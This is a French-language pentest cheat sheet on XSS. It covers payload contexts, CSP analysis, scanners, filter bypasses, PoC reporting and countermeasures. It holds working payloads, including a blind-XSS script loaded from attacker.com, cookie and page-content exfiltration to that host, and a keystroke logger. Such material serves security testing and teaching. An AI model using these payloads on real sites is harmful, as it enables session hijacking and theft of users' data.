

Cette documentation détaille les méthodologies d'identification et d'exploitation des vulnérabilités de type **Cross-Site Scripting (XSS)**. Ces techniques s'inscrivent dans une démarche d'analyse approfondie des applications web, en complément des ressources sur **Web Application Analysis** et **Burp Suite Professional**.



> [!danger] Risque opérationnel
> L'utilisation de payloads intrusifs sur des environnements de production peut causer des dénis de service ou corrompre des données.

> [!warning] Rappel
> Toujours vérifier si le cookie possède le flag **HttpOnly** avant de tenter une exfiltration via **document.cookie**.

> [!note] Condition critique
> Le succès d'une attaque **XSS** dépend fortement du contexte d'encodage de la page cible.

## Types de XSS

### Stored XSS (Persistant)
Le script malveillant est enregistré dans la base de données et exécuté pour chaque visiteur.
- Commentaire : `<script>alert(1)</script>`
- Profil utilisateur : ``

### Reflected XSS (Non Persistant)
Le script est injecté via une requête, sans être sauvegardé.
- URL : `http://target.com/search?q=<script>alert(1)</script>`
- Lien : `<a href="http://target.com/login?redirect=<script>alert(1)</script>">Click Here</a>`

### DOM-Based XSS
L’injection exploite le JavaScript du client sans passer par le serveur.
- Exemple : `document.write(location.hash);`

## Analyse de la CSP (Content Security Policy)
La **CSP** est une couche de sécurité qui aide à détecter et atténuer certains types d'attaques, dont le **XSS**. Une analyse préalable est indispensable pour déterminer si l'injection est viable.

- **En-têtes HTTP** : Vérifier la présence de `Content-Security-Policy`.
- **Analyse des directives** :
    - `script-src 'self'` : Autorise uniquement les scripts du même domaine.
    - `script-src 'unsafe-inline'` : Autorise les scripts inline (vulnérable).
    - `script-src 'unsafe-eval'` : Autorise `eval()` et fonctions similaires (vulnérable).

Pour une analyse approfondie, se référer à la note **Content Security Policy (CSP) Analysis**.

## Contextes d'injection (Attributs, JS, HTML, CSS)
Le succès de l'injection dépend de la manière dont le navigateur interprète la donnée injectée.

| Contexte | Exemple de payload |
| :--- | :--- |
| **HTML Body** | `<div>[INJECTION]</div>` -> `<script>alert(1)</script>` |
| **Attribut HTML** | `<input value="[INJECTION]">` -> `" onfocus="alert(1)" autofocus="` |
| **JavaScript** | `var name = '[INJECTION]';` -> `'; alert(1); //` |
| **CSS** | `<style>body { background: [INJECTION]; }</style>` -> `url("javascript:alert(1)")` |

## Identification Manuelle

### Payloads de test
```text
<script>alert(1)</script>

<svg/onload=alert(1)>
```

### Analyse du contexte
- Réponse HTML : `<input value="<script>alert(1)</script>">`
- Réponse JavaScript : `var user = "<script>alert(1)</script>";`
- Événements JS : `<input onfocus="alert(1)" autofocus>` ou `<body onload="alert(1)">`
- Injection indirecte : `javascript:alert(1)` ou `"><script>alert(1)</script>`

## Techniques de Blind XSS
Le **Blind XSS** survient lorsque le payload est exécuté dans une zone non visible par l'attaquant (ex: panneau d'administration, logs serveur).

1. **Mise en place d'un listener** : Utiliser un outil comme **XSS Hunter** ou un serveur **Burp Collaborator**.
2. **Payload de capture** :
   ```javascript
   <script src="https://attacker.com/log.js"></script>
   ```
3. **Analyse** : Le script exfiltrera le DOM, les cookies et l'URL de la page où le payload a été déclenché.

## Outils d’Automatisation

### Scan passif et actif
- **Burp Suite** : Utilisation du module **Scanner** via *Active Scan*.
- **XSStrike** : Fuzzing avancé.
  ```bash
  xsstrike -u "http://target.com/search?q=test"
  ```
- **Dalfox** : Scanner **XSS** automatisé.
  ```bash
  dalfox url "http://target.com/search?q=test"
  ```
- **Nuclei** : Détection via templates.
  ```bash
  nuclei -t vulnerabilities/xss/
  ```

### Recherche de points d'injection
- **GF Patterns** : Identification des paramètres vulnérables.
  ```bash
  gf xss target.com
  ```
- **KXSS** : Détection des **XSS** cachées dans les réponses HTTP.
  ```bash
  kxss -u "http://target.com/search?q=test"
  ```

## Test des Contournements (Bypass WAF & Filters)

### Encodage et évasion
- Encodage Hex/Unicode : `%3Cscript%3Ealert(1)%3C/script%3E`
- HTML Entity Encoding : `&lt;script&gt;alert(1)&lt;/script&gt;`
- Temporisation : `setTimeout('alert(1)', 1000);`
- Évasion avec **document.location** :
  ```html
  <a href="javascript:document.location='http://attacker.com?cookie='+document.cookie">Click me</a>
  ```

### Bypass CSP et attributs
- Bypass **CSP** avec Data URI :
  ```html
  
  ```
- Attributs SVG : `<svg/onload=alert(1)>`

## Vérification de l'Impact et Exploitation

### Exfiltration et vol de données
- Exfiltration de cookies : `document.location='http://attacker.com/?cookie='+document.cookie`
- Vol de données utilisateur : `fetch('http://attacker.com/log?data='+document.body.innerHTML);`
- Keylogger via **XSS** :
  ```javascript
  document.onkeypress = function(e) { 
      fetch('http://attacker.com/log?key='+e.key); 
  };
  ```
- Redirection : `window.location="http://attacker.com/phishing";`

## Méthodologie de reporting (Preuve de concept)
Pour valider la vulnérabilité dans un rapport de pentest, la PoC doit être reproductible :

1. **Description** : Localisation précise (ex: paramètre `q` sur `/search.php`).
2. **Étapes de reproduction** :
    - Étape 1 : Accéder à l'URL `.../search.php?q=<script>alert(document.domain)</script>`.
    - Étape 2 : Observer l'exécution du script dans le navigateur.
3. **Preuve** : Capture d'écran montrant l'exécution du payload avec l'URL visible.
4. **Impact** : Expliquer les risques (vol de session, exécution de code arbitraire).

## Sécurité & Contre-Mesures

- Mise en place d'une **Content-Security-Policy (CSP)** stricte.
- Échappement systématique des entrées utilisateur (fonctions `htmlspecialchars()`, `htmlentities()`).
- Suppression de l'usage de `innerHTML` et `document.write()`.
- Activation des flags **HttpOnly** et **Secure** sur les cookies.
- Utilisation de solutions **WAF** (ex: **ModSecurity**, **Cloudflare**).

Pour approfondir ces sujets, consulter les notes sur **Content Security Policy (CSP) Analysis** et **Payloads and Wordlists**.